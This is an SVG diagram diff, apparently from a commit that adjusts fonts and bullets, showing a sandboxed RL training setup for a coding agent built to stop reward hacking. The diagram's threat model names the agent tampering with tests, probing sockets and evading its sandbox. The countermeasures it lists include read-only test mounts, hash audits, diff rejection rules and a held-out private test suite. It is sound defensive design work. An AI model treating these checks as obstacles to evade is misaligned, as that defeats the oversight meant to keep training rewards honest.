

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 580" width="100%" height="100%">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 580" width="100%" height="100%" font-family="Helvetica Neue, Helvetica, Arial, sans-serif">
  <defs>
    <marker id="arr-slate" viewBox="0 0 10 10" refX="6" refY="5" markerWidth="6" markerHeight="6" orient="auto-start-reverse">
      <path d="M 0 1 L 8 5 L 0 9 z" fill="#64748b" />
    </marker>
    <marker id="arr-red" viewBox="0 0 10 10" refX="6" refY="5" markerWidth="6" markerHeight="6" orient="auto-start-reverse">
      <path d="M 0 1 L 8 5 L 0 9 z" fill="#dc2626" />
    </marker>
    <marker id="arr-green" viewBox="0 0 10 10" refX="6" refY="5" markerWidth="6" markerHeight="6" orient="auto-start-reverse">
      <path d="M 0 1 L 8 5 L 0 9 z" fill="#059669" />
    </marker>
    <marker id="arr-blue" viewBox="0 0 10 10" refX="6" refY="5" markerWidth="6" markerHeight="6" orient="auto-start-reverse">
      <path d="M 0 1 L 8 5 L 0 9 z" fill="#2563eb" />
    </marker>
  </defs>
  <style>
    .col-card { fill: #f8fafc; stroke: #cbd5e1; stroke-width: 1.5; rx: 4; ry: 4; }
    .col-card-alert { fill: #f8fafc; stroke: #fca5a5; stroke-width: 1.5; rx: 4; ry: 4; }
    .col-card-secure { fill: #f8fafc; stroke: #86efac; stroke-width: 1.5; rx: 4; ry: 4; }
    .header-box { rx: 3; ry: 3; }
    .inner-box { fill: #ffffff; stroke: #e2e8f0; stroke-width: 1.2; rx: 3; ry: 3; }
    .title-text { font-family: system-ui, -apple-system, sans-serif; font-size: 13px; font-weight: 700; fill: #0f172a; }
    .subtitle-text { font-family: system-ui, -apple-system, sans-serif; font-size: 10px; font-weight: 600; fill: #475569; }
    .body-text { font-family: system-ui, -apple-system, sans-serif; font-size: 10.5px; fill: #334155; line-height: 1.4; }
    .code-text { font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, Consolas, monospace; font-size: 10px; fill: #0f172a; }
    .code-accent { font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, Consolas, monospace; font-size: 10px; fill: #2563eb; font-weight: 600; }
    .code-green { font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, Consolas, monospace; font-size: 10px; fill: #059669; font-weight: 600; }
    .code-red { font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, Consolas, monospace; font-size: 10px; fill: #dc2626; font-weight: 600; }
    .dim-label { font-family: system-ui, -apple-system, sans-serif; font-size: 9.5px; font-weight: 600; fill: #64748b; }
    .dim-val { font-family: system-ui, -apple-system, sans-serif; font-size: 10px; fill: #1e293b; }
    .tag-label { font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, Consolas, monospace; font-size: 8.5px; font-weight: 600; }
  </style>
  <g transform="translate(15, 15)">
    <rect class="col-card-alert" x="0" y="0" width="350" height="550" />
    <rect class="header-box" x="12" y="12" width="326" height="42" fill="#fee2e2" />
    <text class="title-text" x="20" y="32">Untrusted Agent Workspace</text>
    <text class="subtitle-text" x="20" y="47">Ephemeral Sandboxed Container (Zero Ambient Authority)</text>
    <g transform="translate(12, 66)">
      <rect class="inner-box" x="0" y="0" width="326" height="95" />
      <text class="dim-label" x="12" y="18">AUTONOMOUS POLICY PROCESS</text>
      <rect x="12" y="26" width="302" height="34" rx="3" fill="#f3e8ff" stroke="#d8b4fe" stroke-width="1" />
      <text class="code-accent" x="18" y="42" fill="#7c3aed">Policy π_θ (UID 10001 : Unprivileged)</text>
      <text class="body-text" x="18" y="53" font-size="9px">Autoregressive generation; multi-turn shell actions</text>
      <text class="body-text" x="12" y="76" font-size="9px" fill="#dc2626">Threat Model: Policy optimizes aggressively against oracle.</text>
      <text class="body-text" x="12" y="88" font-size="9px" fill="#475569">Attempts mutation, socket probing, and sandbox evasion.</text>
    </g>
    <g transform="translate(12, 173)">
      <rect class="inner-box" x="0" y="0" width="326" height="185" />
      <text class="dim-label" x="12" y="18">CONTAINER STORAGE HIERARCHY (OverlayFS)</text>
      <g transform="translate(12, 28)">
        <rect x="0" y="0" width="302" height="60" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
        <text class="code-text" x="10" y="18">UpperDir: Mutable Worktree (Copy-on-Write)</text>
        <text class="body-text" x="10" y="34" font-size="9px">Writable mount: /workspace/src/, /tmp</text>
        <text class="body-text" x="10" y="48" font-size="9px" fill="#2563eb">Captures code edits, build artifacts, patch deltas</text>
      </g>
      <path d="M 163 88 L 163 108" stroke="#dc2626" stroke-width="1.5" stroke-dasharray="3 2" marker-end="url(#arr-red)" />
      <rect x="185" y="90" width="120" height="18" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="1" />
      <text class="tag-label" x="190" y="103" fill="#dc2626">Tamper Vector Blocked</text>
      <g transform="translate(12, 112)">
        <rect x="0" y="0" width="302" height="60" rx="3" fill="#fef2f2" stroke="#fca5a5" stroke-width="1" />
        <text class="code-red" x="10" y="18">LowerDir: Read-Only Test Mount (:ro)</text>
        <text class="body-text" x="10" y="34" font-size="9px">Public test suite: /workspace/tests/test_public.py</text>
        <text class="body-text" x="10" y="48" font-size="9px" fill="#991b1b">Kernel VFS denies in-situ assertion modifications</text>
      </g>
    </g>
    <g transform="translate(12, 370)">
      <rect class="inner-box" x="0" y="0" width="326" height="165" />
      <text class="dim-label" x="12" y="18">KERNEL ISOLATION CONTRACT</text>
      <text class="dim-label" x="12" y="38">Namespace Boundary:</text>
      <text class="dim-val" x="135" y="38">CLONE_NEWUSER, CLONE_NEWPID</text>
      <text class="dim-label" x="12" y="58">Network Confinement:</text>
      <text class="dim-val" x="135" y="58">--net=none (eBPF egress block)</text>
      <text class="dim-label" x="12" y="78">Syscall Filter:</text>
      <text class="dim-val" x="135" y="78">seccomp-bpf (ptrace/mount denied)</text>
      <text class="dim-label" x="12" y="98">Resource Bounds:</text>
      <text class="dim-val" x="135" y="98">cgroups v2: 4 CPUs, 8 GB, 60s limit</text>
      <line x1="12" y1="110" x2="314" y2="110" stroke="#f1f5f9" stroke-width="1" />
      <text class="dim-label" x="12" y="128">Security Invariant:</text>
      <text class="body-text" x="12" y="142" font-size="9px">Agent operates strictly in local memory/storage;</text>
      <text class="body-text" x="12" y="154" font-size="9px">zero ambient authority over reward mechanisms.</text>
    </g>
  </g>
  <g transform="translate(372, 270)">
    <path d="M 0 0 L 34 0" stroke="#2563eb" stroke-width="1.8" marker-end="url(#arr-blue)" />
    <text class="dim-label" x="17" y="-8" text-anchor="middle" font-size="8.5px">git diff</text>
    <text class="dim-label" x="17" y="14" text-anchor="middle" font-size="8.5px">SHA-256</text>
  </g>
  <g transform="translate(415, 15)">
    <rect class="col-card" x="0" y="0" width="350" height="550" />
    <rect class="header-box" x="12" y="12" width="326" height="42" fill="#e2e8f0" />
    <text class="title-text" x="20" y="32">Integrity Verification Gate</text>
    <text class="subtitle-text" x="20" y="47">Host Kernel Supervisor (Artifact Extraction &amp; Hash Audit)</text>
    <g transform="translate(12, 66)">
      <rect class="inner-box" x="0" y="0" width="326" height="110" />
      <text class="dim-label" x="12" y="18">CRYPTOGRAPHIC HASH AUDITOR</text>
      <rect x="12" y="26" width="302" height="46" rx="3" fill="#f8fafc" stroke="#cbd5e1" stroke-width="1" />
      <text class="code-text" x="16" y="42" font-size="9.5px">H_term = SHA256(tests/**)</text>
      <text class="code-text" x="16" y="58" font-size="9.5px">assert H_term == H_init(golden_tests)</text>
      <text class="body-text" x="12" y="88" font-size="9px">Verifies that read-only public fixtures and environment</text>
      <text class="body-text" x="12" y="100" font-size="9px">configurations were not corrupted via kernel exploits.</text>
    </g>
    <g transform="translate(12, 188)">
      <rect class="inner-box" x="0" y="0" width="326" height="120" />
      <text class="dim-label" x="12" y="18">DECLARATIVE ARTIFACT EXTRACTION</text>
      <rect x="12" y="26" width="302" height="34" rx="3" fill="#eff6ff" stroke="#bfdbfe" stroke-width="1" />
      <text class="code-accent" x="16" y="42" font-size="9.5px">git diff --no-ext-diff src/ &gt; agent.patch</text>
      <text class="body-text" x="16" y="53" font-size="8.5px">Extracts purely declarative source diff across container wall</text>
      <rect x="12" y="68" width="302" height="40" rx="3" fill="#fef2f2" stroke="#fca5a5" stroke-width="1" />
      <text class="code-red" x="16" y="84" font-size="9.5px">REJECT IF DIFF TOUCHES: tests/, .git/, build</text>
      <text class="body-text" x="16" y="97" font-size="8.5px">Instant abort if diff references fixtures outside target tree.</text>
    </g>
    <g transform="translate(12, 320)">
      <rect class="inner-box" x="0" y="0" width="326" height="215" />
      <text class="dim-label" x="12" y="18">GATE AUDIT DECISION ENGINE</text>
      <g transform="translate(12, 28)">
        <rect x="0" y="0" width="302" height="62" rx="3" fill="#f0fdf4" stroke="#86efac" stroke-width="1.2" />
        <text class="code-green" x="10" y="18">Valid Clean Patch: Forward to Enclave</text>
        <text class="body-text" x="10" y="34" font-size="8.5px">Hash matched; diff strictly constrained to source tree.</text>
        <text class="body-text" x="10" y="48" font-size="8.5px" fill="#15803d">Injects patch into isolated verification microVM.</text>
      </g>
      <g transform="translate(12, 100)">
        <rect x="0" y="0" width="302" height="98" rx="3" fill="#fef2f2" stroke="#dc2626" stroke-width="1.2" />
        <text class="code-red" x="10" y="18">Security Fault Abort (Tamper Trap)</text>
-         <text class="body-text" x="10" y="34" font-size="8.5px">• Terminate rollout execution immediately</text>
-         <text class="body-text" x="10" y="48" font-size="8.5px">• Emit security telemetry to audit bus</text>
-         <text class="body-text" x="10" y="62" font-size="8.5px">• Discard rollout; apply adversarial penalty</text>
+         <text class="body-text" x="10" y="34" font-size="8.5px">Terminate rollout execution immediately</text>
+         <text class="body-text" x="10" y="48" font-size="8.5px">Emit security telemetry to audit bus</text>
+         <text class="body-text" x="10" y="62" font-size="8.5px">Discard rollout; apply adversarial penalty</text>
        <rect x="10" y="72" width="282" height="18" rx="2" fill="#ffffff" stroke="#dc2626" stroke-width="1" />
        <text class="code-red" x="151" y="84" font-size="9px" text-anchor="middle">Adversarial Penalty: R = -1.0</text>
      </g>
    </g>
  </g>
  <g transform="translate(772, 270)">
    <path d="M 0 0 L 34 0" stroke="#059669" stroke-width="1.8" marker-end="url(#arr-green)" />
    <text class="dim-label" x="17" y="-8" text-anchor="middle" font-size="8.5px">Clean</text>
    <text class="dim-label" x="17" y="14" text-anchor="middle" font-size="8.5px">Patch</text>
  </g>
  <g transform="translate(815, 15)">
    <rect class="col-card-secure" x="0" y="0" width="370" height="550" />
    <rect class="header-box" x="12" y="12" width="346" height="42" fill="#dcfce7" />
    <text class="title-text" x="20" y="32">Hermetic Verification Enclave</text>
    <text class="subtitle-text" x="20" y="47">Isolated MicroVM Execution Substrate (Ground Truth Oracle)</text>
    <g transform="translate(12, 66)">
      <rect class="inner-box" x="0" y="0" width="346" height="85" />
      <text class="dim-label" x="12" y="18">FRESH HERMETIC MICROVM</text>
      <rect x="12" y="26" width="322" height="48" rx="3" fill="#f0fdf4" stroke="#86efac" stroke-width="1" />
      <text class="code-green" x="16" y="42" font-size="9.5px">Firecracker / gVisor MicroVM Instance</text>
      <text class="body-text" x="16" y="54" font-size="8.5px">Dedicated guest kernel; no shared IPC, network, or VFS mounts.</text>
      <text class="body-text" x="16" y="66" font-size="8.5px">Pristine snapshot restored from cold immutable image.</text>
    </g>
    <g transform="translate(12, 163)">
      <rect class="inner-box" x="0" y="0" width="346" height="155" />
      <text class="dim-label" x="12" y="18">DUAL-SPLIT EVALUATION SUITES</text>
      <rect x="12" y="28" width="322" height="34" rx="3" fill="#f8fafc" stroke="#cbd5e1" stroke-width="1" />
      <text class="code-text" x="16" y="42" font-size="9.5px">git apply --check &amp;&amp; git apply agent.patch</text>
      <text class="body-text" x="16" y="54" font-size="8.5px">Atomic application on clean codebase</text>
      <g transform="translate(12, 70)">
        <rect x="0" y="0" width="322" height="72" rx="3" fill="#f0fdf4" stroke="#10b981" stroke-width="1.2" />
        <text class="code-green" x="10" y="18">Held-Out Private Test Suite (Golden Oracle)</text>
-         <text class="body-text" x="10" y="32" font-size="8.5px">• Never mounted in untrusted workspace; prevents memorization</text>
-         <text class="body-text" x="10" y="46" font-size="8.5px">• Edge cases, invariants, and performance bounds</text>
+         <text class="body-text" x="10" y="32" font-size="8.5px">Never mounted in untrusted workspace; prevents memorization</text>
+         <text class="body-text" x="10" y="46" font-size="8.5px">Edge cases, invariants, and performance bounds</text>
        <text class="code-text" x="10" y="60" font-size="9px" fill="#059669">pytest -q tests/test_private.py</text>
      </g>
    </g>
    <g transform="translate(12, 330)">
      <rect class="inner-box" x="0" y="0" width="346" height="205" />
      <text class="dim-label" x="12" y="18">SECURE ONE-WAY REWARD EGRESS</text>
      <rect x="12" y="28" width="322" height="42" rx="3" fill="#f8fafc" stroke="#cbd5e1" stroke-width="1" />
      <text class="body-text" x="16" y="44" font-size="9px" font-weight="600">Unidirectional Observation Channel</text>
      <text class="body-text" x="16" y="58" font-size="8.5px">One-way Unix domain socket transmitting return to RL harness</text>
      <g transform="translate(12, 80)">
        <rect x="0" y="0" width="156" height="52" rx="3" fill="#f0fdf4" stroke="#16a34a" stroke-width="1.2" />
        <text class="code-green" x="78" y="22" font-size="12px" text-anchor="middle">R = 1.0</text>
        <text class="body-text" x="78" y="38" font-size="8.5px" text-anchor="middle" fill="#15803d">Private Suite Passes</text>
        <rect x="166" y="0" width="156" height="52" rx="3" fill="#fee2e2" stroke="#dc2626" stroke-width="1.2" />
        <text class="code-red" x="244" y="22" font-size="12px" text-anchor="middle">R = 0.0</text>
        <text class="body-text" x="244" y="38" font-size="8.5px" text-anchor="middle" fill="#991b1b">Fail / Timeout / Crash</text>
      </g>
      <line x1="12" y1="144" x2="334" y2="144" stroke="#f1f5f9" stroke-width="1" />
      <text class="dim-label" x="12" y="162">Verification Invariant:</text>
      <text class="body-text" x="12" y="176" font-size="9px">Mechanical execution truth; eliminates reward hacking</text>
      <text class="body-text" x="12" y="188" font-size="9px">and ensures policy generalizability to unseen benchmarks.</text>
    </g>
  </g>
